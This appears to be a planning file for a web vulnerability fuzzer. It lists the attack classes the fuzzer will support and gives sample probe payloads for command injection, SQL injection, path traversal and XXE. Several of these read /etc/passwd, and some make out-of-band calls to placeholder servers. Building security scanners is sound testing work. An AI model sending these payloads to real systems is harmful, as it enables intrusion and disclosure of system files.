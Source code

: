 # ATTACKS

A list of attacks that will be supported by the initial fuzzing layer along with their requirements so that we can better figure out what engine support we need to add.

1. OS Command Injections -> [Reflection] [Time-delay] [OOB]
   1. Windows
   2. Linux

[Reflection] -> `& /bin/cat /etc/passwd`
[Time-delay] -> `& sleep 10`
[OOB] -> `&nslookup <oob-server>`

2. SQL Injections 
   1. Error Based -> [Reflection]
   2. Boolean Based -> [Heuristics]
   3. Blind Time Based -> [Time-delay]
   4. OOB Based -> [OOB]

[Reflection] -> `'` Leads to SQL error messages in response
[Heuristics] -> `' AND '1'='1` works, `' AND '1'='2` doesn't, compare with base, attack, and non-attack
[Time-delay] -> `' OR SLEEP(10)#` 
[OOB] -> `' select @@version into outfile '\\\\<oob-server>';`

3. File Path Traversal -> [Depth-Limit(attr)]
   1. Windows
   2. Linux

[Windows] -> `/../../../boot.ini`
[Linux] -> `../../../etc/passwd`

4. XML External Entity Injection   
   1. Reflection -> [Reflection]
   2. OOB Based -> [OOB] 

[Reflection] -> `<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`
[OOB] -> `<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;]><r></r>`

5. LDAP Injection
6. XPath Injection
7.  XML Injection
8.  Out of Band Resource Load
9.  File Path Manipulation
10. Code Injection -> [Reflection] [Time-delay]
    1.  PHP
    2.  Server-Side Javascript
    3.  ASP
    4.  Perl
    5.  Ruby
    6.  Python
    7.  Expression Language
11. Server Side Template Injection
12. SSI Injection
13. Cross Site Scripting (Stored)
14. Web cache poisoning
15. Cross-site scripting (reflected)
16. External Service Interaction (DNS, HTTP, SMTP)
17. Open Redirection

### Future Items

17. GraphQL Issues
18. JWT Issues